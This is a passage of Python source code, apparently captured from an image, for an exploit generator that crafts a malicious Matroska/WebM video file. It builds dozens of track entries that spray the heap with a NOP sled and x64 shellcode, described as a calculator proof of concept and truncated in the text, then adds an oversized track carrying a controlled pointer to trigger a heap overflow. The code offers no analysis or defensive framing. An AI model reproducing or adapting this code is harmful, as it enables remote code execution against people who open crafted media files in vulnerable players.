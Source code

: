 ```python
        segment = b"\x18\x53\x80\x67"  # Segment ID
        segment += b"\x01\xFF\xFF\xFF\xFF\xFF\xFF\xFF"  # Unknown size
        return segment
    
    def create_track_entry(self, track_id, track_type, codec_data):
        """Create individual track entry for heap spray"""
        track = b"\xAE"  # TrackEntry ID
        track += self.encode_size(len(codec_data) + 20)  # Track size
        track += b"\xD7\x81" + struct.pack('B', track_id)  # Track number
        track += b"\x83\x81" + struct.pack('B', track_type)  # Track type
        track += b"\x63\xA2" + self.encode_size(len(codec_data))  # CodecPrivate size
        track += codec_data  # Controlled codec data
        return track
    
    def create_heap_spray_payload(self):
        """Generate heap spray using multiple tracks"""
        
        # Heap spray shellcode (calculator for PoC)
        shellcode = (
            b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
            b"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
            b"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
            # ... shellcode continues
        )
        
        # NOP sled for landing zone
        nop_sled = b"\x90" * 1000
        
        # Spray payload: NOP sled + shellcode
        spray_chunk = nop_sled + shellcode
        
        # Pad to specific size for heap layout control
        spray_chunk += b"A" * (0x1000 - len(spray_chunk))
        
        return spray_chunk
    
    def create_overflow_tracks(self):
        """Create tracks to trigger heap overflow"""
        tracks = b""
        spray_payload = self.create_heap_spray_payload()
        
        # Create multiple tracks for heap spray
        for i in range(50):  # Spray heap with controlled data
            tracks += self.create_track_entry(
                track_id=i + 1,
                track_type=1,  # Video track
                codec_data=spray_payload
            )
        
        # Create overflow trigger track
        overflow_size = 0x10000  # Large allocation
        overflow_data = b"B" * 100  # Controlled data
        overflow_data += struct.pack('<I', 0x0C0C0C0C)  # Controlled pointer
        overflow_data += b"C" * (overflow_size - len(overflow_data))
        
        tracks += self.create_track_entry(
            track_id=999,
            track_type=1,
            codec_data=overflow_data
        )
        
        return tracks
    
```